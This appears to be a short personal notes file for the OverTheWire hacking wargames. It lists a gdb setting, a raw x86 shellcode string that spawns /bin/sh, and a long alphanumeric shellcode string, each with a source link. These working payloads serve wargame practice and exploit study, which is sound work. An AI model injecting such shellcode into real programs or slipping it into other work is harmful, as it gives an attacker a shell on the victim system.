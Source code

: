 # over-the-wire
hacking

# gdb settings
```
(gdb) set exec-wrapper env -u LINES -u COLUMNS
```

# shellcode
https://dhavalkapil.com/blogs/Shellcode-Injection/
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

# alphanumeric shellcode
https://www.exploit-db.com/exploits/13424
```
LLLLXPY3E01E01u03u0fXh8eshXf5VJPfhbifhDefXf5AJfPDTYhKATYX5KATYPQTUX3H01H01X03X0YRX3E01E03U0Jfh2GfXf3E0f1E0f1U0fh88fX0E1f1E0f3E0fPTRX49HHHQfPfYRX2E00E0BRX0E02E02L0z0L0zYRX4j4aGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGG
```
(requires %ebp to be something real)
